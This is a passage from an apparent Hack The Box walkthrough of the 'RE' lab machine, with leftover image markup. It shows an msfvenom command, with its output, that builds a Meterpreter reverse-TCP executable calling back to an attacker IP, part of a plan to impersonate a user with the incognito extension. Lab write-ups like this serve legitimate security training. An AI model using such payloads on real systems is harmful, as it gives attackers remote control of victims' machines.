 ![1e227a1a.png](/assets/images/posts/re-htb-walkthrough/1e227a1a.png)
</a>

Not so fast. I need to impersonate `coby`. As `SYSTEM`, you can be anyone you want on the machine with ease using Meterpreter and the incognito extension. First, I generate Meterpreter with `msfvenom`.

```
# msfvenom -p windows/x64/meterpreter/reverse_tcp_rc4 LHOST=10.10.15.203 -f exe -o met.exe
[-] No platform was selected, choosing Msf::Module::Platform::Windows from the payload
[-] No arch selected, selecting arch: x64 from the payload
No encoder or badchars specified, outputting raw payload
Payload size: 650 bytes
Final size of exe file: 7168 bytes
Saved as: met.exe
```

Next, stand by Metasploit's multi-handler and wait for Meterpreter.

<a class="image-popup">

[1]: https://www.hackthebox.eu/home/machines/profile/198
[2]: https://www.hackthebox.eu/home/users/profile/4935
[3]: https://www.hackthebox.eu/
